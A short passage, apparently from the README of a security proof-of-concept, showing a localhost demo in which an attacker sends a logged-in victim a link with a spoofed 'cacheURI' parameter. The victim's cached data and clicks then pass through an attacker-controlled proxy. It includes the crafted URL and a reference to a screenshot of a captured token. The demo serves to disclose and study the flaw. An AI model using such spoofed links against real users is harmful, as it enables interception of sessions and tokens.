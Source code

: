 The "victim" has previously logged in at `http://localhost:58080/login`. The
"attacker" sends the "victim" the following link with a spoofed `cacheURI`:

```
http://localhost:58080/evil_proxy/vuln.html?cacheURI=http%3a%2f%2f127.0.0.1:58081%2fgoto%2f%2fcache
```

The data sent to the cache, as well as the action of the user clicking on the
link to view the data, is proxied via the attacker, in an almost
indistinguishable way:

![](evil_proxy/poc_evil_proxy_token.png)
